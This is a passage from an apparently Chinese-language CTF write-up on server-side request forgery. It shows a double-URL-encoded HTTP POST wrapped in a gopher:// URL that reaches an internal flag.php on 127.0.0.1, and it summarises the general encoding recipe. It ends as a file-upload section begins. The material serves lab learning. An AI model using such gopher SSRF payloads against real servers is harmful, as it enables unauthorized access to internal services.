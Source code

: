 修改 %0a为 %0d%0a 末尾也加上 %0d%0a

然后再进行url编码

```cobol
POST%2520/flag.php%2520HTTP/1.1%250d%250AHost:%2520127.0.0.1:80%250d%250AContent-Type:%2520application/x-www-form-urlencoded%250d%250AContent-Length:%252036%250d%250A%250d%250Akey=d4c37651847648ede83ed438dcb77f1d%250d%250a
```

然后构造 gopher协议格式

```cobol
gopher://127.0.0.1:80/_POST%2520/flag.php%2520HTTP/1.1%250d%250AHost:%2520127.0.0.1:80%250d%250AContent-Type:%2520application/x-www-form-urlencoded%250d%250AContent-Length:%252036%250d%250A%250d%250Akey=d4c37651847648ede83ed438dcb77f1d%250d%250a
```





<img src="https://i-blog.csdnimg.cn/blog_migrate/fe7b0617e15b7619e7dc6061229021cb.png" alt="" style="max-height:368px; box-sizing:content-box;" />


### 总结

```cobol
gopher 是个万能协议 用来查看信息
 
我们利用的时候 需要按GET POST   格式写请求包
 
然后通过 一次url编码
 
修改%0a  为  %0d%0a 
 
在末尾也要写上 %0d%0a 
 
然后再进行一次url编码
 
然后按照 gopher格式
 
gopher://ip:port/_数据流
 
写入即可
```

## 上传文件

这里就是在flag的地方改变了判断语句变为了文件上传的类型

我们抓包看看



<img src="https://i-blog.csdnimg.cn/blog_migrate/2290f83293d821a5943a78507d1c0dcf.png" alt="" style="max-height:585px; box-sizing:content-box;" />

